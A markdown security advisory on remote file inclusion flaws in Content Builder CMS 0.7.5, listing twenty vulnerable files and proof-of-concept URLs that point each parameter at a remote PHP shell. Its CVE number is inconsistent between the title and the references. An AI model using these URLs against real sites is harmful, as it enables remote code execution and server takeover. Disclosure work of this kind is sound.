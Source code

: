 ```yaml
---
layout: post
title:  "CVE-2006-3019 – Content-Builder CMS 0.7.5 Remote command execution"
date:   2006-06-11 00:00:00
categories: security cve
permalink: post/CVE-2006-3172-content-builder-cms-remote-command-execution/
---
```


### Vendor

[http://www.content-builder.de/][contentbuildercms]

[contentbuildercms]:	http://www.content-builder.de/	"Content-Builder CMS"

> phpCMS is more than just a content management system: it is also a templating engine and an application framework.

### Description

Multiple PHP remote file inclusion vulnerabilities in `Content Builder 0.7.5` allow remote attackers to execute arbitrary PHP code via a URL with a trailing slash (/) character in the

1. lang_path parameter to
*	(a) cms/plugins/col_man/column.inc.php,
*	(b) cms/plugins/poll/poll.inc.php,
*	(c) cms/plugins/user_managment/usrPortrait.inc.php,
*	(d) cms/plugins/user_managment/user.inc.php,
*	(e) cms/plugins/media_manager/media.inc.php,
*	(f) cms/plugins/events/permanent.eventMonth.inc.php,
*	(g) cms/plugins/events/events.inc.php,
*	(h) cms/plugins/newsletter2/newsletter.inc.php;
2. path[cb] paramter to
*	(i) modules/guestbook/guestbook.inc.php,
*	(j) modules/shoutbox/shoutBox.php,
*	(k) modules/sitemap/sitemap.inc.php; and the
3. rel parameter to
*	(l) modules/download/overview.inc.php,
*	(m) modules/download/detailView.inc.php,
*	(n) modules/article/fullarticle.inc.php,
*	(o) modules/article/comments.inc.php,
*	(p) modules/article2/overview.inc.php,
*	(q) modules/article2/fullarticle.inc.php,
*	(r) modules/article2/comments.inc.php,
*	(s) modules/headline/headlineBox.php,
*	(t) modules/headline/showHeadline.inc.php.

### Proof of Concept

**~** stands for `[php-shell-url]`

http://example/[cb_path]/cms/plugins/col_man/column.inc.php?lang_path=
**~**/
http://example/[cb_path]/cms/plugins/poll/poll.inc.php?lang_path=
**~**/
http://example/[cb_path]/cms/plugins/user_managment/usrPortrait.inc.php?lang_path=
**~**/
http://example/[cb_path]/cms/plugins/user_managment/user.inc.php?lang_path=
**~**/
http://example/[cb_path]/cms/plugins/media_manager/media.inc.php?lang_path=
**~**/
http://example/[cb_path]/cms/plugins/events/permanent.eventMonth.inc.php?lang_path=
**~**/
http://example/[cb_path]/cms/plugins/events/events.inc.php?lang_path=
**~**/
http://example/[cb_path]/cms/plugins/newsletter2/newsletter.inc.php?lang_path=
**~**/
http://example/[cb_path]/modules/guestbook/guestbook.inc.php?path[cb]=
**~**/
http://example/[cb_path]/modules/shoutbox/shoutBox.php?path[cb]=
**~**/
http://example/[cb_path]/modules/download/overview.inc.php?rel=
**~**/
http://example/[cb_path]/modules/download/detailView.inc.php?rel=
**~**/
http://example/[cb_path]/modules/sitemap/sitemap.inc.php?path[cb]=
**~**/
http://example/[cb_path]/modules/article/fullarticle.inc.php?rel=
**~**/
http://example/[cb_path]/modules/article/comments.inc.php?rel=
**~**/
http://example/[cb_path]/modules/article2/overview.inc.php?rel=
**~**/
http://example/[cb_path]/modules/article2/fullarticle.inc.php?rel=
**~**/
http://example/[cb_path]/modules/article2/comments.inc.php?rel=
**~**/
http://example/[cb_path]/modules/headline/headlineBox.php?rel=
**~**/
http://example/[cb_path]/modules/headline/showHeadline.inc.php?rel=
**~**/

### References

* [http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2006-3172][mitre]
* [http://www.securityfocus.com/bid/18404][securityfocus]
* [http://www.osvdb.org/26344][osvdb]
* [http://secunia.com/advisories/20557][secunia]

[mitre]:			http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2006-3172 "CVE 2006-3172"
[securityfocus]:	http://www.securityfocus.com/bid/18404						"SecurityFocus-18404"
[osvdb]:			http://www.osvdb.org/26344									"OSVDB-26344"
[secunia]:			http://secunia.com/advisories/20557							"Secunia-20557"